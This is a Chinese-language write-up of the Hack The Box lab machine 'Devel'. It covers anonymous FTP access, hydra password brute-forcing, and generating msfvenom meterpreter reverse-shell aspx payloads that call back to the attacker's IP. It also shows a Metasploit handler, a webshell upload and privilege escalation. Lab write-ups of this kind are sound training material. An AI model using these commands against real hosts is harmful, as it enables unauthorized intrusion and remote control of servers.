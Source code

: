 ```yaml
---
title: Devel（ftp匿名登陆可读可写）
categories:
- training
tags:
- training
- port 21
- windows
---
```

10.10.10.5

```
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5

```
## ftp
```
ftp 10.10.10.5
anonymous
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-11-19  01:21AM                 2826 shell.aspx
01-11-19  01:24AM                 2824 shell1.aspx
01-11-19  01:30AM                 2863 shell2.aspx
03-17-17  04:37PM               184946 welcome.png

get iisstart.htm
get shell.aspx
get shell1.aspx
get shell2.aspx
get welcome.png
cd aspnet_client
cd system_web
cd 2_0_50727
pwd
/aspnet_client/system_web/2_0_50727
```
下载并查看后，推测aspx脚本是服务器上要用的脚本，但看不出具体用途
## web

http://10.10.10.5/aspnet_client/system_web/ 403 forbidden
You do not have permission to view this directory or page using the credentials that you supplied.

http://10.10.10.5/shell.aspx
#### trying1
当进行信息搜集了以后，发现ftp共享的目录就是web目录。

如果可以上传一个aspx类型的shell，通过web就可以获取webshell。

`hydra -l server -P /usr/share/wordlists/rockyou.txt -I 10.10.10.5 ftp`
`hydra -l ftp -P /usr/share/wordlists/rockyou.txt -I 10.10.10.5 ftp`

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/11.PNG)

#### trying2: 生成一个aspx类型的shell。
```
msfvenom -l formats | grep asp
msfvenom -l payload | grep windows | grep meterpreter
msfvenom -p windows/x64/meterpreter_reverse_http LHOST="10.10.14.13" LPORT=7766 -o /root/Desktop/5/glory.aspx

ftp put上传
```
#### trying3: msf

设置监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 7766
run
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/1.PNG)

失败

## 获取一个webshell
重新上传asp类型的一句话，然后菜刀连接。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/2.PNG)

```
whoami
iis apppool\web

net user
Administrator            babis                    Guest                    
The command completed with one or more errors.
```
权限不够，很多东西都看不了

## 错误的总结
以下的命令生成的payload不能成功执行。注意x64，是64位的windows，血泪的教训，会报一个错。
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST="10.10.14.13" LPORT=7766 -o /root/Desktop/5/glory.aspx`

正确的方式：
`msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.13" LPORT=7765 -f aspx  > /root/Desktop/5/4.aspx`

一开始在生成格式中纠结，是生成asp类型，还是apsx类型？
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/3.PNG)

#### asp和aspx的区别
asp是十几年前的产品。

aspx是asp的升级版，aspx整合了.net框架,不仅仅能做网页

#### 关于`set ExitOnSession false`
因为handler application可以继续作为作业（job）运行，即使在关闭或失败的meterpreter会话的情况下也是如此。它仅适用于作业（-j），因为这些是在后台运行的唯一作业。

## 提权
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/4.PNG)

windows提权，使用的方法，[search suggester](https://whale3070.github.io/training/2019/01/06/x/)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-10/5.png)

```
shell
cd c:\Users\Administrator\Desktop
type root.txt.txt
```
## 总结：
这一次渗透还挺顺利的，因为用到的都是以前就学过的知识。

几乎立即就认识到了攻击路径。

还行吧，继续加油。



